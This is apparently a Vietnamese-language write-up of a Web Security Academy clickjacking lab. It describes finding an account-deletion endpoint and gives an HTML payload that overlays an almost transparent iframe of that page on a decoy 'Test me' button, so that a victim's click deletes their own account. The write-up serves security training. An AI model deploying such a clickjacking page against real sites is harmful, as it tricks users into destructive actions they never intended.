

# Basic clickjacking with CSRF token protection
Đề yêu cầu tạo payload HTMl có sử dụng iframe nhằm lừa nạn nhân tự xóa tài khoản của mình.  

Mình tìm được endpoint xóa tài khoản như sau `/my-account/delete`.  
  

Có được thông tin endpoint, tiếp theo mình tạo `iframe` có `src` là endpoint mình tìm được.  
```html
<style>
    iframe {
        position:relative;
        width:800px;
        height: 400px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:100px;
        left:100px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a0f00d8046847a6eb60bb0c002100ea.web-security-academy.net/my-account/delete"></iframe>
```